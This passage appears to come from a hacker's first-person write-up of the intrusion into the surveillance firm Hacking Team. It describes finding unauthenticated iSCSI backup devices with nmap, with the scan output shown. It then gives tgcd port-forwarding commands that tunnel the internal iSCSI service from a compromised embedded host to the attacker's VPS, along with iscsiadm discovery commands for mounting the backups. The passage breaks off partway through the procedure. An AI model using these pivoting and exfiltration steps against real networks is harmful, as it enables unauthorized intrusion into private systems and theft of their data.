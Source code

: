 They were the databases for test instances of RCS. The audio that RCS records
is stored in MongoDB with GridFS. The audio folder in the torrent [6] came
from this. They were spying on themselves without meaning to.

[1] https://www.shodan.io/search?query=product%3Amongodb
[2] https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql
[3] http://archives.neohapsis.com/archives/vulnwatch/2004-q3/0001.html
[4] http://downloads.securityfocus.com/vulnerabilities/exploits/hoagie_mysql.c
[5] http://archives.neohapsis.com/archives/bugtraq/2000-02/0053.html
[6] https://ht.transparencytoolkit.org/audio/


# [ 9 - Crossed Cables ]

Although it was fun to listen to recordings and see webcam images of Hacking
Team developing their malware, it wasn't very useful. Their insecure backups
were the vulnerability that opened their doors. According to their
documentation [1], their iSCSI devices were supposed to be on a separate
network, but nmap found a few in their subnetwork 192.168.1.200/24:

Nmap scan report for ht-synology.hackingteam.local (192.168.200.66)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:ht-synology.name
|     Address: 192.168.200.66:3260,0
|_    Authentication: No authentication required

Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260/tcp open  iscsi?
| iscsi-info:
|   Target: iqn.2000-01.com.synology:synology-backup.name
|     Address: 10.0.1.72:3260,0
|     Address: 192.168.200.72:3260,0
|_    Authentication: No authentication required

iSCSI needs a kernel module, and it would've been difficult to compile it for
the embedded system. I forwarded the port so that I could mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP:42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

Now iSCSI finds the name iqn.2000-01.com.synology but has problems mounting it
because it thinks its IP is 192.168.200.72 instead of 127.0.0.1
